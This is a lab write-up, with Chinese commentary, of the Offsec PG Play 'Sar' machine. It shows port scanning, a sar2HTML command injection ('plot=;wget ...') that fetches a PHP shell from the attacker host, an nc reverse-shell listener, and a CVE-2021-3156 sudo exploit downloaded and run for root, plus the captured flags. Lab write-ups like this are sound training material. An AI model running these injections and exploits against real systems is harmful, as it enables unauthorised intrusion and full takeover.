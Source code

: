 ###### tags: `Offsec` `PG Play` `Easy` `Linux`

# Sar
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rustscan -a 192.168.211.35 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 192.168.211.35:22
Open 192.168.211.35:80

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 33:40:be:13:cf:51:7d:d6:a5:9c:64:c8:13:e5:f2:9f (RSA)
| ssh-rsa
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

查看`/robots.txt`得`sar2HTML`，查看`http://192.168.211.35/sar2HTML/`得版本
```
┌──(kali㉿kali)-[~/pgplay]
└─$ curl 192.168.211.35/robots.txt                                            
sar2HTML
```

![Sar_1.png](picture/Sar_1.png)

找到[edb-47204](https://www.exploit-db.com/exploits/47204)，下載`shell.php`，開nc等反彈

```
┌──(kali㉿kali)-[~/pgplay]
└─$ rlwrap -cAr nc -nvlp9001

192.168.211.35/sar2HTML/index.php?plot=;wget 192.168.45.202/shell.php
192.168.211.35/sar2HTML/shell.php
```

可在`/home`找到local.txt
```
www-data@sar:/home$ cat local.txt
13462e9ab7336b466ca015fe44d600ac
```

`linpeas.sh`，試[CVE-2021-3156](https://github.com/worawit/CVE-2021-3156?tab=readme-ov-file)
```
www-data@sar:/tmp$ wget 192.168.45.202/linpeas.sh
www-data@sar:/tmp$ chmod +x linpeas.sh
www-data@sar:/tmp$ ./linpeas.sh

[+] [CVE-2021-3156] sudo Baron Samedit

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: mint=19,[ ubuntu=18|20 ], debian=10
   Download URL: https://codeload.github.com/blasty/CVE-2021-3156/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit 2

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: centos=6|7|8,[ ubuntu=14|16|17|18|19|20 ], debian=9|10
   Download URL: https://codeload.github.com/worawit/CVE-2021-3156/zip/main
```

得root後，在/root可得proof.txt
```
www-data@sar:/tmp$ wget 192.168.45.202/exploit_nss.py
www-data@sar:/tmp$ python3  exploit_nss.py
# python3 -c 'import pty; pty.spawn("/bin/bash")'
root@sar:/root# cat proof.txt
d91752963843967df194a08e019dcb48
```